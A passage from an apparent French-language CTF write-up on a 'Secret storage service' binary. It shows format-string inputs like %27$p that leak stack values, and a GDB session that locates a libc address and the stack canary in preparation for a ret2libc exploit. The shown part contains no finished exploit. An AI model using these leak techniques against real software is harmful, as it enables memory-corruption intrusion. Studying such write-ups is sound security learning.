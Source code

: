 `0x7ffeacda1570` étant ici la première valeur sur la stack au moment où elle est leak, `0x0000000000000000` étant la deuxième, etc.

Ou de cette manière, bien plus propre :

```console
$ ./task_patched 
----------------------------
-- Secret storage service --
----------------------------
Identify your self : 
 > %30$p
Welcome : 0x100000000
----------------------------
type your secret : 
```

`0x100000000` étant la 30ième valeur sur la stack au moment où elle est leak.

Maintenant que nous sommes en capacité de leak la stack, il faut trouver les bonnes valeurs pour faire notre exploit. Le plus simple ici semble être de faire un [ret2lib](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc). Pour cela, nous devons trouver une addresse de la `libc` ainsi que le [canary](https://ir0nstone.gitbook.io/notes/binexp/stack/canaries). En testant les leaks possibles sous GDB, on finit par trouver :

```gdb
gef➤  r
Starting program: /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched 
----------------------------
-- Secret storage service --
----------------------------
Identify your self : 
 > %27$p %25$p
Welcome : 0x7ffff7df9083 0x4d117625f73cce00
----------------------------
type your secret : 
```

La première valeur étant l'adresse d'une instruction dans la `libc` :

```gdb
gef➤  x/i 0x7ffff7df9083
   0x7ffff7df9083 <__libc_start_main+243>:	mov    edi,eax
```

Vérifions que le second est bien le `canary` :

```gdb
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555531f                  call   0x5555555550e0 <gets@plt>
   0x555555555324                  mov    eax, 0x0
   0x555555555329                  mov    rcx, QWORD PTR [rbp-0x8]
 → 0x55555555532d                  xor    rcx, QWORD PTR fs:0x28
   0x555555555336                  je     0x55555555533d
   0x555555555338                  call   0x5555555550b0 <__stack_chk_fail@plt>
   0x55555555533d                  leave  
   0x55555555533e                  ret    
   0x55555555533f                  nop    
```
